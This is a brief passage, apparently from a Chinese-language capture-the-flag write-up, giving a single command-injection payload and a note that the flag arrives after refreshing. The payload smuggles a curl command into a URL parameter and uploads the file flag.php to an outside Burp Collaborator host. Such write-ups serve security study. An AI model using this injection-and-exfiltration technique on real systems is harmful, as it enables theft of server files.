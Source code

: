```
?F=`$F`;+curl -X POST -F xx=@flag.php  http://r2ubea89bi2uhy4pkgqb7rdcc3iw6l.burpcollaborator.net 
```

然后回来刷新，过一会就能得到flag了
![在这里插入图片描述](img/fef5bfb1eb8bbd82456624ba3d3e5603.png)